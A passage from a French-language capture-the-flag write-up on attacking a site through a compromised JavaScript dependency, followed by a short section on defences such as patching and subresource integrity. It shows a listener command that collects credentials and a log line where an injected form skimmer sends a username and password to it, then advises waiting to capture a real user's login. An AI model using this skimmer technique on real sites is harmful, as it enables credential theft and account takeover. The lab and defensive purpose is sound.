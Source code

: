 `python3 -m http.server 7070`

Nous pouvons tester si notre skimmer fonctionne en utilisant le site nous-mêmes. Remplissez le formulaire et appuyez sur Entrée après avoir tapé votre mot de passe, et vous devez intercepter les informations d'identification:

`10.10.62.64 - - [10/Aug/2022 10:59:28] "GET /item?user=test&pass=test HTTP/1.1" 404 -`

Si cela fonctionne, il suffit d'attendre que quelqu'un s'authentifie! Donnez-lui 5 minutes, et vous devriez intercepter les informations d'identification d'un utilisateur réel! Une fois que vous avez intercepté les informations d'identification de l'utilisateur, utilisez-les pour vous authentifier sur le site Web et récupérer le drapeau!

Défenses

Il est difficile de se défendre contre les attaques mises en scène contre les dépendances externes car il y en a tellement et de nouvelles vulnérabilités sont trouvées quotidiennement. Il y a certaines choses que nous pouvons faire pour limiter le risque:

-   Assurez-vous de mettre à jour et de corriger les dépendances régulièrement. Cela inclurait le correctif d'urgence des dépendances si une vulnérabilité suffisamment grave était découverte.
-   Les dépendances peuvent parfois être copiées et hébergées en interne. Cela réduira la surface d'attaque.
-   L'intégrité des sous-ressources peut être utilisée pour empêcher le chargement des bibliothèques JS altérées. Dans le HTML include, le hachage de la bibliothèque JS peut être ajouté. Les navigateurs Web modernes vérifieront le hachage de la bibliothèque JS, et si elle ne correspond pas, la bibliothèque ne sera pas chargée.
